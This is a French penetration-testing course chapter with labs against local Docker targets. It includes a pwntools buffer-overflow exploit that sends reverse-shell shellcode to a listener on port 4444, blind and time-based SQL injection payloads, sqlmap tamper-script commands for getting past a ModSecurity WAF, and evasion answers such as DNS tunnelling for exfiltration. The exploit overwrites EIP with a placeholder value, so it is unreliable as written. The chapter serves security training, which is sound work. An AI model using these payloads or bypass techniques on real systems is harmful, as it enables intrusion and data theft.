


# Chapitre 03 : Vulnérabilités avancées et contournement des protections

---

## Objectifs pédagogiques

- Exploiter un buffer overflow avec contrôle du flux d'exécution (EIP)
- Maîtriser les injections SQL avancées : blind, time-based, union-based
- Contourner un WAF (ModSecurity) avec sqlmap tamper scripts
- Appliquer les techniques d'évasion (TA0005 Defense Evasion)
- Construire une kill chain d'attaque avancée documentée ATT&CK

---

## Introduction

Les défenses réseau et applicatives sont de plus en plus sophistiquées. Firewalls, WAF, IDS/IPS : ces mécanismes forment un maillage de protection que les attaquants déterminés contournent.

Ce chapitre est centré sur la tactique **TA0005 Defense Evasion**. Vous apprendrez à contourner les protections : obfuscation de payload, fragmentation, encodage de requêtes SQL, et exploitation avancée de failles mémoire.

> **Sources :** [ATT&CK Defense Evasion](https://attack.mitre.org/tactics/TA0005/) — MITRE.

---

## 1. Buffer overflow — T1068 Exploitation for Privilege Escalation

### Comprendre la pile d'exécution

```
Adresses hautes
+-----------------------------+
|  arguments de la fonction   |
+-----------------------------+
|  adresse de retour (EIP)    | <-- L'attaquant veut contrôler ce registre
+-----------------------------+
|  saved EBP (frame pointer)  |
+-----------------------------+
|  buffer local [64 octets]   | <-- Zone vulnérable (strcpy sans limite)
+-----------------------------+
Adresses basses
```

Principe : si on écrit plus de 64 octets dans `buffer`, on déborde sur `saved EBP` puis sur l'**adresse de retour (EIP)**. En remplaçant EIP par l'adresse de notre shellcode, on redirige l'exécution.



Technique ATT&CK : T1068 Exploitation for Privilege Escalation → TA0004/TA0005

---

## Lab 3.1 — Buffer Overflow avec pwntools

### Fiche de lab

| Propriété | Valeur |
|---|---|
| **Durée** | 1h |
| **Conteneur** | `buffovf` (port 9001) |
| **Dossier de travail** | `~/cours-hacking/jour-3/labs/` |
| **Fichiers à créer** | `exploit_bof.py` |
| **Tactique ATT&CK** | TA0004 PrivEsc → T1068 Exploitation for Privilege Escalation |

### Prérequis avant de commencer

- [x] Conteneur buffovf buildé : `docker compose -f ~/cours-hacking/repo/docker-compose.yml up -d --build buffovf`
- [x] Port 9001 ouvert : `nc -z localhost 9001 && echo OK`
- [x] pwntools installé : `pip install pwntools` (si pas déjà fait)
- [x] Terminal dans `~/cours-hacking/jour-3/labs/` : `mkdir -p ~/cours-hacking/jour-3/labs && cd ~/cours-hacking/jour-3/labs`

### Comprendre le programme vulnérable

Le conteneur exécute `vuln.c` via socat sur le port 9001. Le code source est dans `~/cours-hacking/repo/docker/buffovf/vuln.c`.

```c
void vulnerable_function(char *input) {
    char buffer[64];          // Buffer fixe de 64 octets
    strcpy(buffer, input);    // PAS de vérification de taille !
    printf("Input received: %s\n", buffer);
}
```

### Étape 1 — Déterminer l'offset EIP

```bash
cd ~/cours-hacking/jour-3/labs

# Test : envoyer 100 octets "A" pour provoquer un crash
python3 -c "print('A'*100)" | nc localhost 9001
```

Le programme va recevoir 100 'A', les copier dans un buffer de 64 octets, et écraser l'adresse de retour. L'offset attendu est 76 (64 buffer + 4 saved EBP + 8 alignement).

### Étape 2 — Exploitation complète avec pwntools

Créez `~/cours-hacking/jour-3/labs/exploit_bof.py` :

```python
#!/usr/bin/env python3
"""
Exploit buffer overflow — cible buffovf:9001
Reverse shell vers Kali sur le port 4444
"""

from pwn import *

# Contexte : architecture 32 bits
context.arch = 'i386'
context.os = 'linux'

# Offset jusqu'à EIP (64 buffer + 4 saved EBP + 8 align = 76)
OFFSET = 76

# IP de la machine Kali (trouvable via hostname -I)
LHOST = "172.17.0.1"  # IP bridge Docker, ou mettre votre IP Kali
LPORT = 4444

print(f"[*] Offset EIP : {OFFSET}")
print(f"[*] Reverse shell → {LHOST}:{LPORT}")

# Génération du shellcode reverse shell
shellcode = asm(shellcraft.i386.linux.connect(LHOST, LPORT))
print(f"[*] Shellcode : {len(shellcode)} octets")

# Construction du payload
payload = b"A" * OFFSET          # Remplissage jusqu'à EIP
payload += b"BBBB"                # Écrasement EIP (placeholder)
payload += b"\x90" * 32           # NOP sled
payload += shellcode              # Code malveillant

print(f"[*] Payload : {len(payload)} octets")

# Envoi via le service socat
try:
    r = remote('localhost', 9001, timeout=5)
    r.sendline(payload)
    r.interactive()
except Exception as e:
    print(f"[!] Erreur : {e}")
    print("[!] Assurez-vous que buffovf est lancé (port 9001)")
```

### Étape 3 — Lancer l'attaque

```bash
# Terminal 1 : écouteur netcat
nc -lvnp 4444

# Terminal 2 : lancer l'exploit
cd ~/cours-hacking/jour-3/labs
python3 exploit_bof.py
```

### Checkpoints

- [ ] Offset EIP envoyé = 76 octets
- [ ] Shellcode généré automatiquement par pwntools
- [ ] Connexion reçue sur `nc -lvnp 4444`
- [ ] Shell interactif obtenu

### Erreurs fréquentes

- **pwntools pas installé** : `pip install pwntools`
- **LHOST mauvaise IP** : le Docker bridge utilise souvent `172.17.0.1`. Vérifier avec `ip addr show docker0`
- **Connexion refused** : `docker compose -f ~/cours-hacking/repo/docker-compose.yml up -d --build buffovf`
- **Reverse shell ne connecte pas** : le conteneur doit pouvoir joindre Kali. Tester : `docker exec buffovf-target ping <KALI_IP>`

---

## 2. Injections SQL avancées — T1190

### Types d'injections

| Type | Quand l'utiliser | Technique ATT&CK |
|---|---|---|
| Union-based | Erreurs/messages visibles | T1190 |
| Error-based | Messages d'erreur SQL | T1190 |
| Blind Boolean-based | Pas d'erreur visible, comportement change | T1190 |
| Blind Time-based | Aucun retour visuel, délai mesurable | T1190 |

### Blind SQLi — extraction caractère par caractère

```sql
-- Blind booléenne : page change si condition vraie
' AND SUBSTRING((SELECT database()), 1, 1) = 'd' --

-- Blind temporelle : délai si condition vraie
' OR IF(SUBSTRING((SELECT table_name FROM information_schema.tables LIMIT 1), 1, 1) = 'u', SLEEP(3), 0) --
```

---

## Lab 3.2 — Contournement WAF avec sqlmap

### Fiche de lab

| Propriété | Valeur |
|---|---|
| **Durée** | 45 min |
| **Conteneurs** | `waf-target` (port 8081) + `dvwa` (port 8080) |
| **Dossier de travail** | `~/cours-hacking/jour-3/labs/` |
| **Tactique ATT&CK** | TA0005 Defense Evasion → T1562.001 Disable or Modify Tools |

### Prérequis avant de commencer

- [x] Conteneur WAF buildé : `docker compose -f ~/cours-hacking/repo/docker-compose.yml up -d --build waf-target`
- [x] DVWA toujours lancé (port 8080)
- [x] Cookie DVWA prêt (F12 → Storage → Cookies → PHPSESSID)

### Comprendre le WAF

Notre conteneur `waf-target` place une application vulnérable derrière ModSecurity configuré pour bloquer les signatures SQLi connues.



### Étape 1 — Vérifier le blocage WAF

```bash
# Requête normale → 200 OK
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1"
# → 200

# SQLi brute → bloquée
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1 OR 1=1"
# → 403 (Forbidden — WAF a bloqué)

# SQLi avec apostrophe → bloquée
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1'"
# → 403
```

**Checkpoint A :** Requête normale = 200, SQLi brute = 403. Le WAF est actif.

### Étape 2 — Contournement avec sqlmap tamper scripts

```bash
cd ~/cours-hacking/jour-3/labs

# Lister les tampers disponibles
sqlmap --list-tampers | head -20

# Attaque avec tampers combinés
sqlmap -u "http://localhost:8081/?id=1" \
  --tamper=space2comment,charencode,randomcase,versionedmorekeywords \
  --batch --dbs 2>&1 | tee sqlmap_waf_bypass.txt
```

**Checkpoint B :** sqlmap contourne le WAF et liste les bases de données (même résultat qu'en J1 sur DVWA).

### Étape 3 — Blind SQLi manuelle sur DVWA en Medium

```bash
# Monter DVWA en niveau medium (dans Firefox → DVWA Security → Medium)
COOKIE="PHPSESSID=XXXX;security=medium"

# Blind SQLi : union ne marche plus, fallback en booléen
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="$COOKIE" --technique=B --dbs --batch 2>&1 | tee sqlmap_blind.txt
```

### Tableau des tamper scripts utilisés

| Tamper | Effet | Exemple |
|---|---|---|
| `space2comment` | Remplace espaces par `/**/` | `1 OR 1` → `1/**/OR/**/1` |
| `charencode` | Encode caractères spéciaux | `'` → `%27` |
| `randomcase` | Casse aléatoire | `SELECT` → `sELeCt` |
| `versionedmorekeywords` | Commentaires versionnés MySQL | `OR` → `/*!OR*/` |

### Checkpoints

- [ ] Requête SQLi brute = 403 (WAF bloque)
- [ ] sqlmap avec tampers = 200 (WAF contourné)
- [ ] Blind SQLi sur DVWA medium = extraction réussie

---

## 3. Kill chain d'attaque avancée

### Tableau des techniques du chapitre

| Technique ATT&CK | ID | Appliquée dans |
|---|---|---|
| Network Scanning | T1046 | nmap (tous les labs) |
| Exploit Public-Facing App | T1190 | SQLi, command injection |
| Obfuscated Files/Info | T1027 | XOR shellcode, encodage SQL |
| Impair Defenses | T1562.001 | WAF bypass, tamper scripts |
| Unix Shell | T1059.004 | Reverse shell |
| Exploitation for PrivEsc | T1068 | Buffer overflow |

---

## Exercices

### Exercice 1 : Trouver l'offset EIP avec GDB

**Énoncé :** Entrez dans le conteneur buffovf et utilisez GDB pour confirmer l'offset EIP.

<details>
<summary><strong>Solution</strong></summary>

```bash
docker exec -it buffovf-target bash
cd /opt
python3 -c "from pwn import *; print(cyclic(200).decode())" > /tmp/payload.txt

gdb -q ./vuln
(gdb) run $(cat /tmp/payload.txt)
# Programme crash, noter la valeur de EIP : 0x61616174 par exemple

# Sur Kali :
python3 -c "from pwn import *; print(cyclic_find(0x61616174))"
# → 76 (offset confirmé)
```
</details>

### Exercice 2 : Tamper script personnalisé

**Énoncé :** Écrivez un tamper script sqlmap qui remplace `OR` par `||` et `AND` par `&&`.

<details>
<summary><strong>Solution</strong></summary>

```python
#!/usr/bin/env python3
# tamper/logical_operators.py
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

def tamper(payload, **kwargs):
    return payload.replace(" OR ", " || ").replace(" AND ", " && ")
```
</details>

### Exercice 3 : Évasion — quelle technique ?

**Énoncé :** Pour chaque scénario, donnez la technique ATT&CK adaptée :
1. Scan réseau sans déclencher l'IDS
2. SQLi bloquée par WAF
3. Exfiltration malgré firewall sortant (port 443 bloqué)

<details>
<summary><strong>Solution</strong></summary>

1. T1001 Data Obfuscation + T1595.001 Active Scanning → `nmap -f -T1`
2. T1562.001 Disable/Modify Tools → `sqlmap --tamper=space2comment,randomcase`
3. T1572 Protocol Tunneling → DNS tunnel (iodine) ou T1048.003 Exfiltration Over Alternative Protocol
</details>

---

## Points clés à retenir

- TA0005 Defense Evasion regroupe 50+ techniques d'évasion
- Buffer overflow : écrire plus que la taille du buffer → écraser EIP → rediriger l'exécution
- Blind SQLi extrait des données sans retour visible
- Chaque couche de défense a ses angles morts
- L'obfuscation est la clé : XOR, encodage, commentaires, fragmentation

## Pour aller plus loin

- [MITRE ATT&CK — Defense Evasion (TA0005)](https://attack.mitre.org/tactics/TA0005/)
- [Corelan Exploit Development](https://www.corelan.be/index.php/articles/)
- [sqlmap tamper scripts](https://github.com/sqlmapproject/sqlmap/tree/master/tamper)
- [Awesome WAF](https://github.com/0xInfection/Awesome-WAF)

---

*Chapitre précédent : [Jour 2](./JOUR-02.md)*
*Chapitre suivant : [Jour 4](./JOUR-04.md)*
